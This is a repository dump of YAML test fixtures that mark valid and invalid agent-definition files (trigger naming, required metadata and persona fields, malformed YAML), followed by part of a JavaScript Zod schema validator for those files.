# Error message: agent.menu[].trigger must be kebab-case (lowercase words separated by hyphen)

agent:
  metadata:
    id: asterisk-trigger
    name: Asterisk Trigger
    title: Asterisk
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: "*help"
      description: Invalid trigger with asterisk
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/menu-triggers/snake-case.agent.yaml`
```yaml
# Test: Snake_case trigger
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[0].trigger
# Error message: agent.menu[].trigger must be kebab-case (lowercase words separated by hyphen)

agent:
  metadata:
    id: snake-case-trigger
    name: Snake Case Trigger
    title: Snake Case
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: list_tasks
      description: Invalid snake_case trigger
      action: list_tasks
```

## File: `test/fixtures/agent-schema/invalid/menu-triggers/trigger-with-spaces.agent.yaml`
```yaml
# Test: Trigger with spaces
# Expected: FAIL
# Error code: custom
# Error path: agent.menu[0].trigger
# Error message: agent.menu[].trigger must be kebab-case (lowercase words separated by hyphen)

agent:
  metadata:
    id: spaces-trigger
    name: Spaces Trigger
    title: Spaces
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: list tasks
      description: Invalid trigger with spaces
      action: list_tasks
```

## File: `test/fixtures/agent-schema/invalid/metadata/empty-module-string.agent.yaml`
```yaml
# Test: Module field with whitespace only
# Expected: FAIL
# Error code: custom
# Error path: agent.metadata.module
# Error message: agent.metadata.module must be a non-empty string
# Path context: src/modules/bmm/agents/empty-module-string.agent.yaml

agent:
  metadata:
    id: empty-module
    name: Empty Module String
    title: Empty Module
    icon: ❌
    module: "   "

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/metadata/empty-name.agent.yaml`
```yaml
# Test: Empty string in metadata.name field
# Expected: FAIL
# Error code: custom
# Error path: agent.metadata.name
# Error message: agent.metadata.name must be a non-empty string

agent:
  metadata:
    id: empty-name-test
    name: "   "
    title: Empty Name Test
    icon: ❌

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/metadata/extra-metadata-fields.agent.yaml`
```yaml
# Test: Extra unknown fields in metadata
# Expected: FAIL
# Error code: unrecognized_keys
# Error path: agent.metadata
# Error keys: ["unknown_field", "another_extra"]

agent:
  metadata:
    id: extra-fields
    name: Extra Fields
    title: Extra Fields
    icon: ❌
    hasSidecar: false
    unknown_field: This is not allowed
    another_extra: Also invalid

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/metadata/missing-id.agent.yaml`
```yaml
# Test: Missing required metadata.id field
# Expected: FAIL
# Error code: invalid_type
# Error path: agent.metadata.id
# Error expected: string

agent:
  metadata:
    name: Missing ID Agent
    title: Missing ID
    icon: ❌

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/persona/empty-principles-array.agent.yaml`
```yaml
# Test: Empty principles array
# Expected: FAIL
# Error code: too_small
# Error path: agent.persona.principles
# Error minimum: 1

agent:
  metadata:
    id: empty-principles
    name: Empty Principles
    title: Empty Principles
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles: []

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/persona/empty-string-in-principles.agent.yaml`
```yaml
# Test: Empty string in principles array
# Expected: FAIL
# Error code: custom
# Error path: agent.persona.principles[1]
# Error message: agent.persona.principles[] must be a non-empty string

agent:
  metadata:
    id: empty-principle-string
    name: Empty Principle String
    title: Empty Principle
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Valid principle
      - "   "
      - Another valid principle

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/persona/extra-persona-fields.agent.yaml`
```yaml
# Test: Extra unknown fields in persona
# Expected: FAIL
# Error code: unrecognized_keys
# Error path: agent.persona
# Error keys: ["extra_field", "another_extra"]

agent:
  metadata:
    id: extra-persona-fields
    name: Extra Persona Fields
    title: Extra Persona
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle
    extra_field: Not allowed
    another_extra: Also invalid

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/persona/missing-role.agent.yaml`
```yaml
# Test: Missing required persona.role field
# Expected: FAIL
# Error code: invalid_type
# Error path: agent.persona.role
# Error expected: string

agent:
  metadata:
    id: missing-role
    name: Missing Role
    title: Missing Role
    icon: ❌
    hasSidecar: false

  persona:
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/prompts/empty-content.agent.yaml`
```yaml
# Test: Prompt with empty content string
# Expected: FAIL
# Error code: custom
# Error path: agent.prompts[0].content
# Error message: agent.prompts[].content must be a non-empty string

agent:
  metadata:
    id: empty-content
    name: Empty Content
    title: Empty Content
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  prompts:
    - id: prompt1
      content: "   "

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/prompts/extra-prompt-fields.agent.yaml`
```yaml
# Test: Extra unknown fields in prompts
# Expected: FAIL
# Error code: unrecognized_keys
# Error path: agent.prompts[0]
# Error keys: ["extra_field"]

agent:
  metadata:
    id: extra-prompt-fields
    name: Extra Prompt Fields
    title: Extra Fields
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  prompts:
    - id: prompt1
      content: Valid content
      description: Valid description
      extra_field: Not allowed

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/prompts/missing-content.agent.yaml`
```yaml
# Test: Prompt missing required content field
# Expected: FAIL
# Error code: invalid_type
# Error path: agent.prompts[0].content
# Error expected: string

agent:
  metadata:
    id: prompt-missing-content
    name: Prompt Missing Content
    title: Missing Content
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  prompts:
    - id: prompt1

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/prompts/missing-id.agent.yaml`
```yaml
# Test: Prompt missing required id field
# Expected: FAIL
# Error code: invalid_type
# Error path: agent.prompts[0].id
# Error expected: string

agent:
  metadata:
    id: prompt-missing-id
    name: Prompt Missing ID
    title: Missing ID
    icon: ❌
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  prompts:
    - content: Prompt without ID

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/invalid/top-level/empty-file.agent.yaml`
```yaml
# Test: Empty YAML file
# Expected: FAIL
# Error code: invalid_type
# Error path:
# Error expected: object
```

## File: `test/fixtures/agent-schema/invalid/top-level/extra-top-level-keys.agent.yaml`
```yaml
# Test: Extra top-level keys beyond 'agent'
# Expected: FAIL
# Error code: unrecognized_keys
# Error path: 
# Error keys: ["extra_key", "another_extra"]

agent:
  metadata:
    id: extra-test
    name: Extra Test Agent
    title: Extra Test
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: display_help

extra_key: This should not be allowed
another_extra: Also invalid
```

## File: `test/fixtures/agent-schema/invalid/top-level/missing-agent-key.agent.yaml`
```yaml
# Test: Missing required 'agent' top-level key
# Expected: FAIL
# Error code: invalid_type
# Error path: agent
# Error expected: object

metadata:
  id: bad-test
  name: Bad Test Agent
  title: Bad Test
  icon: ❌
```

## File: `test/fixtures/agent-schema/invalid/yaml-errors/invalid-indentation.agent.yaml`
```yaml
# Test: Invalid YAML structure with inconsistent indentation
# Expected: FAIL - YAML parse error

agent:
  metadata:
  id: invalid-indent
    name: Invalid Indentation
    title: Invalid
    icon: ❌
  persona:
    role: Test
    identity: Test
    communication_style: Test
    principles:
      - Test
  menu:
    - trigger: help
      description: Help
      action: help
```

## File: `test/fixtures/agent-schema/invalid/yaml-errors/malformed-yaml.agent.yaml`
```yaml
# Test: Malformed YAML with syntax errors
# Expected: FAIL - YAML parse error

agent:
  metadata:
    id: malformed
    name: Malformed YAML
    title: [Malformed
    icon: 🧪
  persona:
    role: Test
    identity: Test
    communication_style: Test
    principles:
      - Test
  menu:
    - trigger: help
      description: Help
```

## File: `test/fixtures/agent-schema/valid/critical-actions/empty-critical-actions.agent.yaml`
```yaml
# Test: Empty critical_actions array
# Expected: PASS - empty array is valid for optional field

agent:
  metadata:
    id: empty-critical-actions
    name: Empty Critical Actions
    title: Empty Critical Actions
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with empty critical actions
    identity: I am a test agent with empty critical actions array.
    communication_style: Clear
    principles:
      - Test empty arrays

  critical_actions: []

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/critical-actions/no-critical-actions.agent.yaml`
```yaml
# Test: No critical_actions field (optional)
# Expected: PASS

agent:
  metadata:
    id: no-critical-actions
    name: No Critical Actions
    title: No Critical Actions
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent without critical actions
    identity: I am a test agent without critical actions.
    communication_style: Clear
    principles:
      - Test optional fields

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/critical-actions/valid-critical-actions.agent.yaml`
```yaml
# Test: critical_actions with valid strings
# Expected: PASS

agent:
  metadata:
    id: valid-critical-actions
    name: Valid Critical Actions
    title: Valid Critical Actions
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with critical actions
    identity: I am a test agent with valid critical actions.
    communication_style: Clear
    principles:
      - Test valid arrays

  critical_actions:
    - Load configuration from disk
    - Initialize user context
    - Set communication preferences

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/menu/multiple-menu-items.agent.yaml`
```yaml
# Test: Menu with multiple valid items using different command types
# Expected: PASS

agent:
  metadata:
    id: multiple-menu
    name: Multiple Menu Items
    title: Multiple Menu
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with multiple menu items
    identity: I am a test agent with diverse menu commands.
    communication_style: Clear
    principles:
      - Test multiple menu items

  menu:
    - trigger: help
      description: Show help
      action: display_help
    - trigger: start-workflow
      description: Start a workflow
      workflow: path/to/workflow
    - trigger: execute
      description: Execute command
      exec: npm test
    - trigger: use-template
      description: Use template
      tmpl: path/to/template
```

## File: `test/fixtures/agent-schema/valid/menu/single-menu-item.agent.yaml`
```yaml
# Test: Menu with single valid item
# Expected: PASS

agent:
  metadata:
    id: single-menu
    name: Single Menu Item
    title: Single Menu
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with single menu item
    identity: I am a test agent.
    communication_style: Clear
    principles:
      - Test minimal menu

  menu:
    - trigger: help
      description: Show help information
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/menu-commands/all-command-types.agent.yaml`
```yaml
# Test: Menu items with all valid command target types
# Expected: PASS

agent:
  metadata:
    id: all-commands
    name: All Command Types
    title: All Commands
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with all command types
    identity: I test all available command target types.
    communication_style: Clear
    principles:
      - Test all command types

  menu:
    - trigger: workflow-test
      description: Test workflow command
      workflow: path/to/workflow
    - trigger: validate-test
      description: Test validate-workflow command
      validate-workflow: path/to/validation
    - trigger: exec-test
      description: Test exec command
      exec: npm test
    - trigger: action-test
      description: Test action command
      action: perform_action
    - trigger: tmpl-test
      description: Test tmpl command
      tmpl: path/to/template
    - trigger: data-test
      description: Test data command
      data: path/to/data
  
```

## File: `test/fixtures/agent-schema/valid/menu-commands/multiple-commands.agent.yaml`
```yaml
# Test: Menu item with multiple command targets
# Expected: PASS - multiple targets are allowed

agent:
  metadata:
    id: multiple-commands
    name: Multiple Commands
    title: Multiple Commands
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with multiple command targets
    identity: I test multiple command targets per menu item.
    communication_style: Clear
    principles:
      - Test multiple targets

  menu:
    - trigger: multi-command
      description: Menu item with multiple command targets
      workflow: path/to/workflow
      exec: npm test
      action: perform_action
```

## File: `test/fixtures/agent-schema/valid/menu-triggers/compound-triggers.agent.yaml`
```yaml
# Test: Valid compound triggers
# Expected: PASS

agent:
  metadata:
    id: compound-triggers
    name: Compound Triggers
    title: Compound Triggers Test
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with compound triggers
    identity: I test compound trigger validation.
    communication_style: Clear
    principles:
      - Test compound format

  menu:
    - trigger: TS or fuzzy match on tech-spec
      description: "[TS] Two-word compound trigger"
      action: tech_spec
    - trigger: DS or fuzzy match on dev-story
      description: "[DS] Another two-word compound trigger"
      action: dev_story
    - trigger: WI or fuzzy match on workflow-init-process
      description: "[WI] Three-word compound trigger (uses first 2 words for shortcut)"
      action: workflow_init
    - trigger: H or fuzzy match on help
      description: "[H] Single-word compound trigger (1-letter shortcut)"
      action: help
```

## File: `test/fixtures/agent-schema/valid/menu-triggers/kebab-case-triggers.agent.yaml`
```yaml
# Test: Valid kebab-case triggers
# Expected: PASS

agent:
  metadata:
    id: kebab-triggers
    name: Kebab Case Triggers
    title: Kebab Triggers
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with kebab-case triggers
    identity: I test kebab-case trigger validation.
    communication_style: Clear
    principles:
      - Test kebab-case format

  menu:
    - trigger: help
      description: Single word trigger
      action: display_help
    - trigger: list-tasks
      description: Two word trigger
      action: list_tasks
    - trigger: workflow-init-process
      description: Three word trigger
      action: init_workflow
    - trigger: test123
      description: Trigger with numbers
      action: test
    - trigger: multi-word-kebab-case-trigger
      description: Long kebab-case trigger
      action: long_action
```

## File: `test/fixtures/agent-schema/valid/metadata/core-agent-with-module.agent.yaml`
```yaml
# Test: Core agent can have module field
# Expected: PASS
# Note: Core agents can now include module field if needed

agent:
  metadata:
    id: core-with-module
    name: Core With Module
    title: Core Agent
    icon: ✅
    module: bmm
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/metadata/empty-module-name-in-path.agent.yaml`
```yaml
# Test: Empty module name in path (src/modules//agents/)
# Expected: PASS - treated as core agent (empty module normalizes to null)
# Path context: src/modules//agents/test.agent.yaml

agent:
  metadata:
    id: empty-module-path
    name: Empty Module in Path
    title: Empty Module Path
    icon: 🧪
    hasSidecar: false
    # No module field - path has empty module name, treated as core

  persona:
    role: Test agent for empty module name in path
    identity: I test the edge case where module name in path is empty.
    communication_style: Clear
    principles:
      - Test path parsing edge cases

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/metadata/malformed-path-treated-as-core.agent.yaml`
```yaml
# Test: Malformed module path (no slash after module name) treated as core
# Expected: PASS - malformed path returns null, treated as core agent
# Path context: src/modules/bmm

agent:
  metadata:
    id: malformed-path
    name: Malformed Path Test
    title: Malformed Path
    icon: 🧪
    hasSidecar: false
    # No module field - will be treated as core since path parsing returns null

  persona:
    role: Test agent for malformed path edge case
    identity: I test edge cases in path parsing.
    communication_style: Clear
    principles:
      - Test edge case handling

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/metadata/module-agent-correct.agent.yaml`
```yaml
# Test: Valid module agent with correct module field
# Expected: PASS
# Path context: src/modules/bmm/agents/module-agent-correct.agent.yaml

agent:
  metadata:
    id: bmm-test
    name: BMM Test Agent
    title: BMM Test
    icon: 🧪
    module: bmm
    hasSidecar: false

  persona:
    role: Test module agent
    identity: I am a module-scoped test agent.
    communication_style: Professional
    principles:
      - Test module validation

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/metadata/module-agent-missing-module.agent.yaml`
```yaml
# Test: Module agent can omit module field
# Expected: PASS
# Note: Module field is optional

agent:
  metadata:
    id: bmm-missing-module
    name: No Module
    title: Optional Module
    icon: ✅
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/metadata/wrong-module-value.agent.yaml`
```yaml
# Test: Module agent can have any module value
# Expected: PASS
# Note: Module validation removed - agents can declare any module

agent:
  metadata:
    id: wrong-module
    name: Any Module
    title: Any Module Value
    icon: ✅
    module: cis
    hasSidecar: false

  persona:
    role: Test agent
    identity: Test identity
    communication_style: Test style
    principles:
      - Test principle

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/persona/complete-persona.agent.yaml`
```yaml
# Test: All persona fields properly filled
# Expected: PASS

agent:
  metadata:
    id: complete-persona
    name: Complete Persona Agent
    title: Complete Persona
    icon: 🧪
    hasSidecar: false

  persona:
    role: Comprehensive test agent with all persona fields
    identity: I am a test agent designed to validate complete persona structure with multiple characteristics and attributes.
    communication_style: Professional, clear, and thorough with attention to detail
    principles:
      - Validate all persona fields are present
      - Ensure array fields work correctly
      - Test comprehensive documentation

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/prompts/empty-prompts.agent.yaml`
```yaml
# Test: Empty prompts array
# Expected: PASS - empty array valid for optional field

agent:
  metadata:
    id: empty-prompts
    name: Empty Prompts
    title: Empty Prompts
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with empty prompts
    identity: I am a test agent with empty prompts array.
    communication_style: Clear
    principles:
      - Test empty arrays

  prompts: []

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/prompts/no-prompts.agent.yaml`
```yaml
# Test: No prompts field (optional)
# Expected: PASS

agent:
  metadata:
    id: no-prompts
    name: No Prompts
    title: No Prompts
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent without prompts
    identity: I am a test agent without prompts field.
    communication_style: Clear
    principles:
      - Test optional fields

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/prompts/valid-prompts-minimal.agent.yaml`
```yaml
# Test: Prompts with required id and content only
# Expected: PASS

agent:
  metadata:
    id: valid-prompts-minimal
    name: Valid Prompts Minimal
    title: Valid Prompts
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with minimal prompts
    identity: I am a test agent with minimal prompt structure.
    communication_style: Clear
    principles:
      - Test minimal prompts

  prompts:
    - id: prompt1
      content: This is a valid prompt content
    - id: prompt2
      content: Another valid prompt

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/prompts/valid-prompts-with-description.agent.yaml`
```yaml
# Test: Prompts with optional description field
# Expected: PASS

agent:
  metadata:
    id: valid-prompts-description
    name: Valid Prompts With Description
    title: Valid Prompts Desc
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with prompts including descriptions
    identity: I am a test agent with complete prompt structure.
    communication_style: Clear
    principles:
      - Test complete prompts

  prompts:
    - id: prompt1
      content: This is a valid prompt content
      description: This prompt does something useful
    - id: prompt2
      content: Another valid prompt
      description: This prompt does something else

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/fixtures/agent-schema/valid/top-level/minimal-core-agent.agent.yaml`
```yaml
# Test: Valid core agent with only required fields
# Expected: PASS
# Path context: src/core/agents/minimal-core-agent.agent.yaml

agent:
  metadata:
    id: minimal-test
    name: Minimal Test Agent
    title: Minimal Test
    icon: 🧪
    hasSidecar: false

  persona:
    role: Test agent with minimal configuration
    identity: I am a minimal test agent used for schema validation testing.
    communication_style: Clear and concise
    principles:
      - Validate schema requirements
      - Demonstrate minimal valid structure

  menu:
    - trigger: help
      description: Show help
      action: display_help
```

## File: `test/schema/agent.js`
```javascript
// Zod schema definition for *.agent.yaml files
const assert = require('node:assert');
const { z } = require('zod');

const COMMAND_TARGET_KEYS = ['workflow', 'validate-workflow', 'exec', 'action', 'tmpl', 'data'];
const TRIGGER_PATTERN = /^[a-z0-9]+(?:-[a-z0-9]+)*$/;
const COMPOUND_TRIGGER_PATTERN = /^([A-Z]{1,3}) or fuzzy match on ([a-z0-9]+(?:-[a-z0-9]+)*)$/;

/**
 * Derive the expected shortcut from a kebab-case trigger.
 * - Single word: first letter (e.g., "help" → "H")
 * - Multi-word: first letter of first two words (e.g., "tech-spec" → "TS")
 * @param {string} kebabTrigger The kebab-case trigger name.
 * @returns {string} The expected uppercase shortcut.
 */
function deriveShortcutFromKebab(kebabTrigger) {
  const words = kebabTrigger.split('-');
  if (words.length === 1) {
    return words[0][0].toUpperCase();
  }
  return (words[0][0] + words[1][0]).toUpperCase();
}

/**
 * Parse and validate a compound trigger string.
 * Format: "<SHORTCUT> or fuzzy match on <kebab-case>"
 * @param {string} triggerValue The trigger string to parse.
 * @returns {{ valid: boolean, shortcut?: string, kebabTrigger?: string, error?: string }}
 */
function parseCompoundTrigger(triggerValue) {
  const match = COMPOUND_TRIGGER_PATTERN.exec(triggerValue);
  if (!match) {
    return { valid: false, error: 'invalid compound trigger format' };
  }

  const [, shortcut, kebabTrigger] = match;

  return { valid: true, shortcut, kebabTrigger };
}

// Public API ---------------------------------------------------------------

/**
 * Validate an agent YAML payload against the schema derived from its file location.
 * Exposed as the single public entry point, so callers do not reach into schema internals.
 *
 * @param {string} filePath Path to the agent file (used to infer module scope).
 * @param {unknown} agentYaml Parsed YAML content.
 * @returns {import('zod').SafeParseReturnType<unknown, unknown>} SafeParse result.
 */
function validateAgentFile(filePath, agentYaml) {
  const expectedModule = deriveModuleFromPath(filePath);
  const schema = agentSchema({ module: expectedModule });
  return schema.safeParse(agentYaml);
}

module.exports = { validateAgentFile };

// Internal helpers ---------------------------------------------------------

/**
 * Build a Zod schema for validating a single agent definition.
 * The schema is generated per call so module-scoped agents can pass their expected
 * module slug while core agents leave it undefined.
 *
 * @param {Object} [options]
 * @param {string|null|undefined} [options.module] Module slug for module agents; omit or null for core agents.
 * @returns {import('zod').ZodSchema} Configured Zod schema instance.
 */
function agentSchema(options = {}) {
  const expectedModule = normalizeModuleOption(options.module);

  return (
    z
      .object({
        agent: buildAgentSchema(expectedModule),
      })
      .strict()
      // Refinement: enforce trigger format and uniqueness rules after structural checks.
      .superRefine((value, ctx) => {
        const seenTriggers = new Set();

        let index = 0;
        for (const item of value.agent.menu) {
          // Handle legacy format with trigger field
          if (item.trigger) {
            const triggerValue = item.trigger;
            let canonicalTrigger = triggerValue;

            // Check if it's a compound trigger (contains " or ")
            if (triggerValue.includes(' or ')) {
              const result = parseCompoundTrigger(triggerValue);
              if (!result.valid) {
                ctx.addIssue({
                  code: 'custom',
                  path: ['agent', 'menu', index, 'trigger'],
                  message: `agent.menu[].trigger compound format error: ${result.error}`,
                });
                return;
              }

              // Validate that shortcut matches description brackets
              const descriptionMatch = item.description?.match(/^\[([A-Z]{1,3})\]/);
              if (!descriptionMatch) {
                ctx.addIssue({
                  code: 'custom',
                  path: ['agent', 'menu', index, 'description'],
                  message: `agent.menu[].description must start with [SHORTCUT] where SHORTCUT matches the trigger shortcut "${result.shortcut}"`,
                });
                return;
              }

              const descriptionShortcut = descriptionMatch[1];
              if (descriptionShortcut !== result.shortcut) {
                ctx.addIssue({
                  code: 'custom',
                  path: ['agent', 'menu', index, 'description'],
                  message: `agent.menu[].description shortcut "[${descriptionShortcut}]" must match trigger shortcut "${result.shortcut}"`,
                });
                return;
              }

              canonicalTrigger = result.kebabTrigger;
            } else if (!TRIGGER_PATTERN.test(triggerValue)) {
              ctx.addIssue({
                code: 'custom',
                path: ['agent', 'menu', index, 'trigger'],
                message: 'agent.menu[].trigger must be kebab-case (lowercase words separated by hyphen)',
              });
              return;
            }

            if (seenTriggers.has(canonicalTrigger)) {
              ctx.addIssue({
                code: 'custom',
                path: ['agent', 'menu', index, 'trigger'],
                message: `agent.menu[].trigger duplicates "${canonicalTrigger}" within the same agent`,
              });
              return;
            }

            seenTriggers.add(canonicalTrigger);
          }
          // Handle multi format with triggers array (new format)
          else if (item.triggers && Array.isArray(item.triggers)) {
            for (const [triggerIndex, triggerItem] of item.triggers.entries()) {
              let triggerName = null;

              // Extract trigger name from all three formats
              if (triggerItem.trigger) {
                // Format 1: Simple flat format with trigger field
                triggerName = triggerItem.trigger;
              } else {
                // Format 2a or 2b: Object-key format
                const keys = Object.keys(triggerItem);
                if (keys.length === 1 && keys[0] !== 'trigger') {
                  triggerName = keys[0];
                }
              }

              if (triggerName) {
                if (!TRIGGER_PATTERN.test(triggerName)) {
                  ctx.addIssue({
                    code: 'custom',
                    path: ['agent', 'menu', index, 'triggers', triggerIndex],
                    message: `agent.menu[].triggers[] must be kebab-case (lowercase words separated by hyphen) - got "${triggerName}"`,
                  });
                  return;
                }

                if (seenTriggers.has(triggerName)) {
                  ctx.addIssue({
                    code: 'custom',
                    path: ['agent', 'menu', index, 'triggers', triggerIndex],
                    message: `agent.menu[].triggers[] duplicates "${triggerName}" within the same agent`,
                  });
                  return;
                }

                seenTriggers.add(triggerName);
              }
            }
          }

          index += 1;
        }
      })
      // Refinement: suggest conversational_knowledge when discussion is true
      .superRefine((value, ctx) => {
        if (value.agent.discussion === true && !value.agent.conversational_knowledge) {
          ctx.addIssue({
            code: 'custom',
            path: ['agent', 'conversational_knowledge'],
            message: 'It is recommended to include conversational_knowledge when discussion is true',
          });
        }
      })
  );
}

/**
 * Assemble the full agent schema using the module expectation provided by the caller.
 * @param {string|null} expectedModule Trimmed module slug or null for core agents.
 */
function buildAgentSchema(expectedModule) {
  return z
    .object({
      metadata: buildMetadataSchema(expectedModule),
      persona: buildPersonaSchema(),
      critical_actions: z.array(createNonEmptyString('agent.critical_actions[]')).optional(),
      menu: z.array(buildMenuItemSchema()).min(1, { message: 'agent.menu must include at least one entry' }),
      prompts: z.array(buildPromptSchema()).optional(),
      webskip: z.boolean().optional(),
      discussion: z.boolean().optional(),
      conversational_knowledge: z.array(z.object({}).passthrough()).min(1).optional(),
    })
    .strict();
}

/**
 * Validate metadata shape.
 * @param {string|null} expectedModule Trimmed module slug or null when core agent metadata is expected.
 * Note: Module field is optional and can be any value - no validation against path.
 */
function buildMetadataSchema(expectedModule) {
  const schemaShape = {
    id: createNonEmptyString('agent.metadata.id'),
    name: createNonEmptyString('agent.metadata.name'),
    title: createNonEmptyString('agent.metadata.title'),
    icon: createNonEmptyString('agent.metadata.icon'),
    module: createNonEmptyString('agent.metadata.module').optional(),
    hasSidecar: z.boolean(),
  };

  return z.object(schemaShape).strict();
}

function buildPersonaSchema() {
  return z
    .object({
      role: createNonEmptyString('agent.persona.role'),
      identity: createNonEmptyString('agent.persona.identity'),
      communication_style: createNonEmptyString('agent.persona.communication_style'),
      principles: z.union([
        createNonEmptyString('agent.persona.principles'),
        z
          .array(createNonEmptyString('agent.persona.principles[]'))
          .min(1, { message: 'agent.persona.principles must include at least one entry' }),
      ]),
    })
    .strict();
}

function buildPromptSchema() {
  return z
    .object({
      id: createNonEmptyString('agent.prompts[].id'),
      content: z.string().refine((value) => value.trim().length > 0, {
        message: 'agent.prompts[].content must be a non-empty string',
      }),
      description: createNonEmptyString('agent.prompts[].description').optional(),
    })
    .strict();
}

/**
 * Schema for individual menu entries ensuring they are actionable.
 * Supports both legacy format and new multi format.
 */
function buildMenuItemSchema() {
  // Legacy menu item format
  const legacyMenuItemSchema = z
    .object({
      trigger: createNonEmptyString('agent.menu[].trigger'),
      description: createNonEmptyString('agent.menu[].description'),
      workflow: createNonEmptyString('agent.menu[].workflow').optional(),
      'workflow-install': createNonEmptyString('agent.menu[].workflow-install').optional(),
      'validate-workflow': createNonEmptyString('agent.menu[].validate-workflow').optional(),
      exec: createNonEmptyString('agent.menu[].exec').optional(),
      action: createNonEmptyString('agent.menu[].action').optional(),
      tmpl: createNonEmptyString('agent.menu[].tmpl').optional(),
      data: z.string().optional(),
      checklist: createNonEmptyString('agent.menu[].checklist').optional(),
      document: createNonEmptyString('agent.menu[].document').optional(),
      'ide-only': z.boolean().optional(),
      'web-only': z.boolean().optional(),
      discussion: z.boolean().optional(),
    })
    .strict()
    .superRefine((value, ctx) => {
      const hasCommandTarget = COMMAND_TARGET_KEYS.some((key) => {
        const commandValue = value[key];
        return typeof commandValue === 'string' && commandValue.trim().length > 0;
      });

      if (!hasCommandTarget) {
        ctx.addIssue({
          code: 'custom',
          message: 'agent.menu[] entries must include at least one command target field',
        });
      }
    });

  // Multi menu item format
  const multiMenuItemSchema = z
    .object({
      multi: createNonEmptyString('agent.menu[].multi'),
      triggers: z
        .array(
          z.union([
            // Format 1: Simple flat format (has trigger field)
            z
              .object({
                trigger: z.string(),
                input: createNonEmptyString('agent.menu[].triggers[].input'),
